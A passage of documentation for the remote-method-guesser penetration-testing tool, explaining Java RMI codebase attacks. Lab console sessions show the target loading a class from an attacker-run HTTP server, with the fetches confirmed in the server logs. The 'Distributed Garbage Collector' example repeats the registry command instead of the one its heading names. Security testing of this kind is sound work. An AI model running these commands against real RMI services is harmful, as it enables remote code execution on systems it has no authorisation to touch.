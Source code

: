 
#### Codebase Attacks

*Java RMI* supports a feature called *codebases*, where the client and the server can specify *URLs* during *RMI calls* that
may be used to load unknown classes dynamically. If an *RMI server* accepts a *client specified codebase*, this can lead to
*remote code execution* by providing a malicious *Java* class during the *RMI communication*.

The codebase configuration on an *RMI server* can be different for the different components: *Activator*, *DGC*, *Registry* and *Application Level*.
*remote-method-guesser* allows you to test each component individually by using either ``--signature <method>`` (application level),
``--signature act`` (activator), ``--signature dgc`` (distributed garbage collector) or ``--signature reg`` (rmi registry) together with the
``codebase`` action.

*Application Level*:

```console
[qtc@kali ~]$ rmg 172.17.0.2 9010 codebase Example http://172.17.0.1:8000 --signature "String login(java.util.HashMap dummy1)" --bound-name legacy-service
[+] Attempting codebase attack on RMI endpoint...
[+] Using class Example with codebase http://172.17.0.1:8000/ during login call.
[+] 
[+] 	Using non primitive argument type java.util.HashMap on position 0
[+] 	Specified method signature is String login(java.util.HashMap dummy1)
[+] 	
[+] 	Remote class loader attempted to load dummy class 44c9f8b49776400eb6d3142a41060c69
[+] 	Codebase attack probably worked :)

[qtc@kali www]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.2 - - [26/Mar/2021 06:19:24] "GET /Example.class HTTP/1.1" 200 -
172.17.0.2 - - [26/Mar/2021 06:19:24] "GET /44c9f8b49776400eb6d3142a41060c69.class HTTP/1.1" 404 -
```

*RMI Registry*:

```console
[qtc@kali ~]$ rmg 172.17.0.2 9010 codebase Example http://172.17.0.1:8000 --signature reg
[+] Attempting codebase attack on RMI Registry endpoint...
[+] Using class Example with codebase http://172.17.0.1:8000/ during lookup call.
[+] 
[+] 	Caught ClassCastException during codebase attack.
[+] 	The server uses either readString() to unmarshal String parameters, or
[+] 	Codebase attack most likely worked :)

[qtc@kali www]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.2 - - [26/Mar/2021 06:20:47] "GET /Example.class HTTP/1.1" 200 -
```

*Distributed Garbage Collector*:

```console
[qtc@kali ~]$ rmg 172.17.0.2 9010 codebase Example http://172.17.0.1:8000 --signature reg
[+] Attempting codebase attack on RMI Registry endpoint...
[+] Using class Example with codebase http://172.17.0.1:8000/ during lookup call.
[+] 
[+] 	Caught ClassCastException during codebase attack.
[+] 	Codebase attack most likely worked :)

[qtc@kali www]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.2 - - [26/Mar/2021 06:22:23] "GET /Example.class HTTP/1.1" 200 -
```
